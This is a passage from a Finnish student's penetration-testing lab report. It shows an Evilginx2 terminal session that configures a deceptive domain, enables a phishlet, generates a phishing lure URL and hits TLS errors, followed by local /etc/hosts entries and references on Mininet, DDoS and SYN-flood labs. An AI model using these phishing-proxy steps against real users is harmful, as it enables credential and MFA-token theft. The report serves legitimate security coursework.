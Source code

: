 Tässä oli ehkä enemmän järkeä, mutta en ole ole kyllä varma. Lopussa oleva error ilmoitus käy kyllä järkeen (ehkä Evilginx tarvitsee toimiakseen https yhteydellä olevan sivun).  

```bash
[21:23:03] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)                                                                                             
[21:23:03] [inf] loading phishlets from: /usr/share/evilginx2/phishlets/
[21:23:03] [inf] loading configuration from: /home/parallels/.evilginx
[21:23:04] [inf] blacklist: loaded 0 ip addresses and 0 ip masks

+-----------+-----------+-------------+-----------+-------------+
| phishlet  |  status   | visibility  | hostname  | unauth_url  |                                         
+-----------+-----------+-------------+-----------+-------------+                                         
| spring    | disabled  | visible     |           |             |                                         
+-----------+-----------+-------------+-----------+-------------+                                         

: config domain security-update.com
[21:23:38] [inf] server domain set to: security-update.com
: config ipv4 127.0.0.1
[21:23:49] [inf] server external IP set to: 127.0.0.1
: phishlets hostname spring security-update.com
[21:24:47] [inf] phishlet 'spring' hostname set to: security-update.com
[21:24:47] [inf] disabled phishlet 'spring'
: phishlets enable spring
[21:25:07] [inf] enabled phishlet 'spring'
: lures create spring
[21:25:26] [inf] created lure with ID: 3
: lures get-url 3

https://academy.security-update.com/RnXXpBCk

[21:27:53] [err] http_proxy: failed to get TLS certificate for: academy.breakdev.org:443 error: EOF
[21:27:53] [err] http_proxy: failed to get TLS certificate for: academy.breakdev.org:443 error: EOF
: 2025/05/06 21:27:53 [001] WARN: Error responding to client: write tcp 127.0.0.1:443->127.0.0.1:33042: i/o timeout
2025/05/06 21:27:53 [002] WARN: Error responding to client: write tcp 127.0.0.1:443->127.0.0.1:33058: i/o timeout
```

/etc/hosts lisäykset:

```bash
127.0.0.1   academy.breakdev.org
127.0.0.1  breakdev.org
127.0.0.1  academy.academy.breakdev.org

127.0.0.1 security-update.com academy.security-update.com
```


[^1]: Tero Karvinen. Verkkoon tunkeutuminen ja tiedustelu: https://terokarvinen.com/verkkoon-tunkeutuminen-ja-tiedustelu/
[^2]: Lari Iso Anttila. 5. Laboratorio- ja simulaatioympäristöt hyökkäyksissä, moodle: https://hhmoodle.haaga-helia.fi/course/view.php?id=42566&section=1#tabs-tree-start
[^3]: Henry Isakoff: https://henry.isakoff.fi
[^4]: pinkkila. https://github.com/pinkkila/tunkeutumistestaus/blob/main/h1-kybertappoketju.md
[^5]: XQuarzt. https://www.xquartz.org
[^6]: To Kin Hang. How to open xterm for mininet on MacOS: https://im424.medium.com/how-to-open-xterm-for-mininet-on-macos-aae87218cdd9
[^7]: Tharun Shiv. Easy way to SSH into VirtualBox machine | Any OS: https://dev.to/developertharun/easy-way-to-ssh-into-virtualbox-machine-any-os-just-x-steps-5d9i?source=post_page-----aae87218cdd9---------------------------------------
[^8]: mininet: https://github.com/mininet/mininet/wiki/FAQ#x11-forwarding
[^9]: Stack Overflow. xterm not working in mininet: https://stackoverflow.com/questions/38040156/xterm-not-working-in-mininet
[^10]: Stack Exchange. annoying message "X11 connection rejected because of wrong authentication" while there is no problem at all: https://unix.stackexchange.com/questions/162979/annoying-message-x11-connection-rejected-because-of-wrong-authentication-while
[^11]: Lari Iso-Anttila: https://hhmoodle.haaga-helia.fi/pluginfile.php/4252431/mod_resource/content/1/03-mininet.pdf
[^12]: mininet. Mininet VM Setup Notes: https://mininet.org/vm-setup-notes/
[^13]: ssam246. Network-Security-Lab: https://github.com/ssam246/Network-Security-Lab
[^14]: Wikipedia. Internet Control Message Protocol: https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol
[^15]: Layla Gallez. Running Mininet on an M1 with Ubuntu and Parallels: https://www.youtube.com/watch?v=09NF3rzT92M
[^16]: santhisenan. SDN_DDoS_Simulation: https://github.com/santhisenan/SDN_DDoS_Simulation
[^17]: IBM Techology. What is a DDoS Attack?: https://www.youtube.com/watch?v=z503nLsfe5s
[^18]: karthik2522. Network-Security-Lab: https://github.com/karthik2522/Network-Security-Lab
[^19]: kgretzky. Evilginx 3.0: https://github.com/kgretzky/evilginx2
[^20]: Clint & Si. GitHub Phishing Attack: Evilginx2 MFA Bypass Explained | 2024: https://www.youtube.com/watch?v=e7SebbYUS2w
[^21]: OpenAI. ChatGPT: Version 1.2025.112, Model GPT‑4o
[^22]: Cloudflare. How does a SYN flood attack work?: https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/
[^23]: Enat. Performing a TCP SYN Flood Attack: https://www.youtube.com/watch?v=qSqa3s2mank